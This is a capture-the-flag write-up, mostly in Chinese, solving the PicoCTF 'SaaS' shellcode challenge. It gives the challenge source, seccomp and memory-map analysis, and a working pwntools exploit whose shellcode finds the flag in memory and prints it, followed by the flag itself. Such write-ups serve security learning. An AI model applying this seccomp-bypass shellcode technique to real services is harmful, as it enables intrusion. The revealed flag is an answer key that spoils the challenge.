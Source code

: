 ```yaml
---
title: PicoCTF - SaaS
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - SaaS
## Background
seccomp-tool
## Source code
:::spoiler Source Code
```cpp=
#include <errno.h>
#include <error.h>
#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <unistd.h>

#define SIZE 0x100

// http://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=xor+rax%2C+rax%0D%0Amov+rdi%2C+rsp%0D%0Aand+rdi%2C+0xfffffffffffff000%0D%0Asub+rdi%2C+0x2000%0D%0Amov+rcx%2C+0x600%0D%0Arep+stosq%0D%0Axor+rbx%2C+rbx%0D%0Axor+rcx%2C+rcx%0D%0Axor+rdx%2C+rdx%0D%0Axor+rsp%2C+rsp%0D%0Axor+rbp%2C+rbp%0D%0Axor+rsi%2C+rsi%0D%0Axor+rdi%2C+rdi%0D%0Axor+r8%2C+r8%0D%0Axor+r9%2C+r9%0D%0Axor+r10%2C+r10%0D%0Axor+r11%2C+r11%0D%0Axor+r12%2C+r12%0D%0Axor+r13%2C+r13%0D%0Axor+r14%2C+r14%0D%0Axor+r15%2C+r15%0D%0A&arch=x86-64&as_format=inline#assembly
#define HEADER "\x48\x31\xc0\x48\x89\xe7\x48\x81\xe7\x00\xf0\xff\xff\x48\x81\xef\x00\x20\x00\x00\x48\xc7\xc1\x00\x06\x00\x00\xf3\x48\xab\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xe4\x48\x31\xed\x48\x31\xf6\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"

#define FLAG_SIZE 64

char flag[FLAG_SIZE];

void load_flag() {
  int fd;
  if ((fd = open("flag.txt", O_RDONLY)) == -1)
    error(EXIT_FAILURE, errno, "open flag");
  if (read(fd, flag, FLAG_SIZE) == -1)
    error(EXIT_FAILURE, errno, "read flag");
  if (close(fd) == -1)
    error(EXIT_FAILURE, errno, "close flag");
}

void setup() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  if (ctx != NULL) {
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1,
      SCMP_A0(SCMP_CMP_EQ, STDOUT_FILENO));
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    ret |= seccomp_load(ctx);
  }
  seccomp_release(ctx);
  if (ctx == NULL || ret)
    error(EXIT_FAILURE, 0, "seccomp");
}

int main()
{
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  load_flag();
  puts("Welcome to Shellcode as a Service!");

  void* addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0);
  memcpy(addr, HEADER, sizeof(HEADER));
  read(0, addr + sizeof(HEADER) - 1, SIZE);

  setup();
  goto *addr;
}

```
:::
## Recon
這題算簡單，很適合新手打shell code，但不知道為啥很少人解，和之前計安的某一題很像但忘記在哪邊了，也有可能是在EOF的時候打的，關於seccomp可以看這篇[^seccomp-tools-note]
```bash
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0c0d78f23470e4613121a0d3bdc1cd5e43e49b32, not stripped
$ checksec chall
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/SaaS/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$ seccomp-tools dump ./chall
Welcome to Shellcode as a Service!
123
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x0000003c  if (A == exit) goto 0012
 0006: 0x15 0x05 0x00 0x000000e7  if (A == exit_group) goto 0012
 0007: 0x15 0x00 0x05 0x00000001  if (A != write) goto 0013
 0008: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # write(fd, buf, count)
 0009: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0013
 0010: 0x20 0x00 0x00 0x00000010  A = fd # write(fd, buf, count)
 0011: 0x15 0x00 0x01 0x00000001  if (A != 0x1) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```
1. 觀察source code發現有設定seccomp的保護，只開放write和exit，但在輸入之前已經先讀了flag，此時就可以直接想辦法call syswrite把東西印出來就完事了
2. 要注意libc的版本，我的local端原本是2.31但不知道為啥變成2.35，所以又花了一點時間用VM才解出來
3. 這一題難的地方在於一開始有一串shell code(HEADER)，經過online tool[^online-tool-assemble]可以知道它就是把stack上和register的東西全部清空，所以如果要找到flag所在的位址就需要撈一下memory，我的做法是直接把memory dump下來，然後string search(記得是little endian)，然後用offset算他和rip之間的相對位置
## Exploit - seccomp-tools / syswrite
算offset是這一題最煩的地方，以我的例子來說(記憶體區段如下)，flag是放在==0x000055e109602060==的地方，我執行shell code的地方是在==0x7fbb78c21000==，所以我先把0x00007f1d391e5000~0x00007f1d39215000的東西dump下來，發現在0x2e590的地方存的是==0x55e109400448==，和原本的0x000055e109602060差了一點，所以我先把後1.5bytes變成0(and operator)，然後加上offset(0x202060)，在依序把其他必要的register擺好就可以call function了
![](https://hackmd.io/_uploads/r1FxFRy23.png)


:::spoiler
```
0x000055e109400000 0x000055e109402000 0x0000000000000000 r-x /home/sbk/Downloads/SaaS/chall
0x000055e109601000 0x000055e109602000 0x0000000000001000 r-- /home/sbk/Downloads/SaaS/chall
0x000055e109602000 0x000055e109603000 0x0000000000002000 rw- /home/sbk/Downloads/SaaS/chall
0x00007fbb789cb000 0x00007fbb789ce000 0x0000000000000000 rw- 
0x00007fbb789ce000 0x00007fbb789f0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb789f0000 0x00007fbb78b68000 0x0000000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78b68000 0x00007fbb78bb6000 0x000000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bb6000 0x00007fbb78bba000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bba000 0x00007fbb78bbc000 0x00000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bbc000 0x00007fbb78bc0000 0x0000000000000000 rw- 
0x00007fbb78bc0000 0x00007fbb78bc2000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bc2000 0x00007fbb78bd1000 0x0000000000002000 r-x /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bd1000 0x00007fbb78bdf000 0x0000000000011000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bdf000 0x00007fbb78be0000 0x000000000001f000 --- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be0000 0x00007fbb78be1000 0x000000000001f000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be1000 0x00007fbb78be2000 0x0000000000020000 rw- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be2000 0x00007fbb78be4000 0x0000000000000000 rw- 
0x00007fbb78bf5000 0x00007fbb78bf6000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78bf6000 0x00007fbb78c19000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c19000 0x00007fbb78c21000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c21000 0x00007fbb78c22000 0x0000000000000000 rwx 
0x00007fbb78c22000 0x00007fbb78c23000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c23000 0x00007fbb78c24000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c24000 0x00007fbb78c25000 0x0000000000000000 rw- 
0x00007ffe014db000 0x00007ffe014fd000 0x0000000000000000 rw- [stack]
0x00007ffe0150d000 0x00007ffe01511000 0x0000000000000000 r-- [vvar]
0x00007ffe01511000 0x00007ffe01513000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```
:::
```python!
from pwn import *

# r = process('./chall')
r = remote('mars.picoctf.net', 31021)
context.arch = 'amd64'
r.recvline()

# exe = ELF('./chall')

payload = asm('''
    lea rax, [rip-0x52-0x2c000+0x2e9f0]
    mov rsi, QWORD PTR [rax]
    and rsi, 0xfffffffffffff000
    add rsi, 0x202060
    mov rdi, 1
    mov rdx, 0x40
    mov rax, 1
    syscall
''')
# raw_input()
r.sendline(payload)


r.interactive()
```

```bash!
$ python exp.py
[+] Opening connection to mars.picoctf.net on port 31021: Done
[*] Switching to interactive mode
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

Flag: `picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}`
## Reference
[^seccomp-tools-note]:[Simple PWN - 0x010(seccomp/Lab - rop2win)](https://hackmd.io/@SBK6401/H1NX6Bloj)
[^online-tool-assemble]:[Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm)